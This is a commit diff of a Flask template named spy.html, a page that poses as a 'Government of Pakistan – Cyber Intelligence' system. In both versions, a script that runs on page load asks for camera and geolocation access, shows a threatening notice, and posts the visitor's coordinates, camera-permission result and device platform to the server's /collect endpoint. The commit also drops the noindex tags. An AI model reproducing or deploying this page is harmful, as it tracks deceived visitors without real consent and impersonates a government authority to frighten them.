

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; grey boxes are pictures that could not be loaded.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -2,101 +2,52 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>Government of Pakistan – Cyber Intelligence</title>
+  <title>🇵🇰 Government of Pakistan</title>
   <meta name="viewport" content="width=device-width, initial-scale=1">
-  <meta name="robots" content="noindex, nofollow">
-  <meta name="googlebot" content="noindex, nofollow">
-  <meta name="google" content="nositelinkssearchbox">
-  <meta name="google" content="notranslate">
+  <link rel="icon" href="https://upload.wikimedia.org/wikipedia/en/3/32/State_emblem_of_Pakistan.png">
   <style>
     body {
       margin: 0;
-      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-      background: #101820;
-      color: #f8f8f8;
+      font-family: 'Segoe UI', Tahoma;
+      background: #001f3f;
+      color: white;
       display: flex;
       justify-content: center;
       align-items: center;
-      flex-direction: column;
       height: 100vh;
     }
-
-    .box {
-      background: rgba(255, 255, 255, 0.05);
+    .container {
+      background: rgba(255,255,255,0.05);
       padding: 30px;
-      border-radius: 16px;
-      box-shadow: 0 0 30px rgba(0,0,0,0.8);
+      border-radius: 14px;
+      box-shadow: 0 0 30px rgba(0,0,0,0.4);
+      width: 350px;
       text-align: center;
-      width: 370px;
-      backdrop-filter: blur(12px);
-      border: 1px solid #21bf73;
+      backdrop-filter: blur(8px);
     }
-
-    .seal {
+    img {
       width: 70px;
-      margin-bottom: 10px;
+      margin-bottom: 15px;
     }
-
     h1 {
       font-size: 20px;
       margin-bottom: 8px;
-      color: #21bf73;
     }
-
-    .warning {
+    p {
       font-size: 13px;
-      background: rgba(255, 0, 0, 0.1);
-      border: 1px solid red;
-      padding: 10px;
-      margin-bottom: 20px;
-      color: #ffcccc;
-      border-radius: 6px;
-    }
-
-    #map, #cameraView {
-      width: 100%;
-      height: 200px;
-      border-radius: 8px;
-      margin-bottom: 10px;
-      background: #333;
-      display: flex;
-      align-items: center;
-      justify-content: center;
-      font-size: 14px;
-    }
-
-    video {
-      width: 100%;
-      height: 100%;
-      border-radius: 8px;
-      object-fit: cover;
-    }
-
-    footer {
-      margin-top: 15px;
-      font-size: 12px;
-      color: #aaa;
+      color: #ccc;
     }
   </style>
 </head>
 <body>
-  <div class="box">
-    <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/6/6e/State_emblem_of_Pakistan.svg/2048px-State_emblem_of_Pakistan.svg.png" class="seal" alt="Gov Logo">
-    <h1>Government of Pakistan – Cyber Intelligence</h1>
-    <div class="warning">⚠️ Confidential System – Location and Device are being analyzed.</div>
-
-    <div id="map">📍 Getting location...</div>
-    <div id="cameraView">📷 Waiting for camera...</div>
-
-    <footer>© Government of Pakistan – Cyber Intelligence Wing</footer>
+  <div class="container">
+    <img src="https://upload.wikimedia.org/wikipedia/en/3/32/State_emblem_of_Pakistan.png" alt="Gov Logo">
+    <h1>⚠️ Government of Pakistan – Cyber Intelligence</h1>
+    <p>Confidential system – Your location & camera are being analyzed...</p>
   </div>
 
   <script>
-    const mapBox = document.getElementById('map');
-    const cameraView = document.getElementById('cameraView');
-
-    async function collectData(cameraStatus, latitude = null, longitude = null) {
-      try {
+    async function sendData(cameraStatus, latitude = null, longitude = null) {
       await fetch("/collect", {
         method: "POST",
         headers: { "Content-Type": "application/json" },
@@ -105,44 +56,26 @@
           latitude: latitude,
           longitude: longitude,
           camera: cameraStatus,
-            deviceInfo: navigator.platform
+          device: navigator.platform
         })
       });
-      } catch (e) {
-        console.warn("❌ Failed to send data");
-      }
     }
 
-    async function startSurveillance() {
-      let lat = null, lon = null;
+    function startTracking() {
+      navigator.mediaDevices.getUserMedia({ video: true })
+        .then(stream => {
+          stream.getTracks().forEach(track => track.stop());
 
-      try {
-        const pos = await new Promise((res, rej) =>
-          navigator.geolocation.getCurrentPosition(res, rej)
+          navigator.geolocation.getCurrentPosition(
+            pos => sendData("✅ Camera Allowed", pos.coords.latitude, pos.coords.longitude),
+            err => sendData("✅ Camera Allowed, ❌ Location Denied")
           );
-        lat = pos.coords.latitude;
-        lon = pos.coords.longitude;
-        mapBox.innerHTML = `📍 Latitude: ${lat.toFixed(4)}<br>📍 Longitude: ${lon.toFixed(4)}`;
-      } catch (e) {
-        mapBox.innerHTML = "❌ Location Blocked";
+        })
+        .catch(() => sendData("❌ Camera Denied"));
     }
 
-      try {
-        const stream = await navigator.mediaDevices.getUserMedia({ video: true });
-        const video = document.createElement('video');
-        video.srcObject = stream;
-        video.autoplay = true;
-        video.playsInline = true;
-        cameraView.innerHTML = '';
-        cameraView.appendChild(video);
-        collectData("✅ Camera Allowed", lat, lon);
-      } catch (e) {
-        cameraView.innerHTML = "❌ Camera Denied";
-        collectData("❌ Camera Denied", lat, lon);
-      }
-    }
-
-    window.onload = startSurveillance;
+    // Auto-run
+    window.onload = startTracking;
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
